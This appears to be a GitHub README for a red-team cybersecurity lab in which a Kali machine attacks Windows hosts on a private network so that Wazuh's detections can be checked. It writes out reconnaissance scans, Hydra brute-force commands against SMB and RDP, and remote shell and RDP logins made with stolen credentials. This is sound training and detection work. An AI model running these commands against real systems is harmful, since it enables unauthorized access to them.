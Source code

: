 #  Red Team — Enterprise Cybersecurity Lab

This section documents simulated attacks executed against an enterprise environment using Kali Linux. These scenarios reflect common tactics from adversaries, including brute-force, remote code execution, and lateral movement. The goal is to demonstrate real-world offensive techniques and validate their detection by Blue Team tools such as **Wazuh**.

---

##  Lab Environment

| Hostname      | Role              | OS             | IP Address |
|---------------|-------------------|----------------|------------|
| kali-attacker | Red Team Attacker | Kali Linux     | 10.0.0.50  |
| client-win    | Workstation       | Windows 11     | 10.0.0.101 |
| win-server    | Domain Controller | Windows Server | 10.0.0.10  |

---

##  Objectives

- Simulate real-world attack paths on Windows infrastructure.
- Test the visibility and detection capabilities of Wazuh.
- Document MITRE ATT&CK mappings for each step.
- Propose defensive strategies based on findings.

---

##  Attack Scenarios

### 1. Network Reconnaissance

**Tools**: `netdiscover`, `nmap`  
**Purpose**: Identify live hosts, open ports, and OS fingerprints.

bash
netdiscover -r 10.0.0.0/24
nmap -sS -sV -O -T4 10.0.0.0/24

### 2. SMB & RDP Brute Force
Tool: Hydra
Target: client-win
Protocols: SMB & RDP
Wordlists: SecLists

bash
Copy
Edit
hydra -L users.txt -P passwords.txt smb://10.0.0.101
hydra -L users.txt -P passwords.txt rdp://10.0.0.101

### 3. Remote Shell via Evil-WinRM
Tool: Evil-WinRM
Target: client-win
Purpose: Remote PowerShell access using stolen credentials.

bash
Copy
Edit
evil-winrm -i 10.0.0.101 -u jdoe -p @password123!

### 4. Remote Desktop Session (xfreerdp)
Tool: xfreerdp
Purpose: Full GUI login to target workstation.

bash
Copy
Edit
xfreerdp /u:jdoe /p:password123 /v:10.0.0.101
Results: Successful RDP session.
 Detection: Wazuh detected successful login (Event ID 4624).
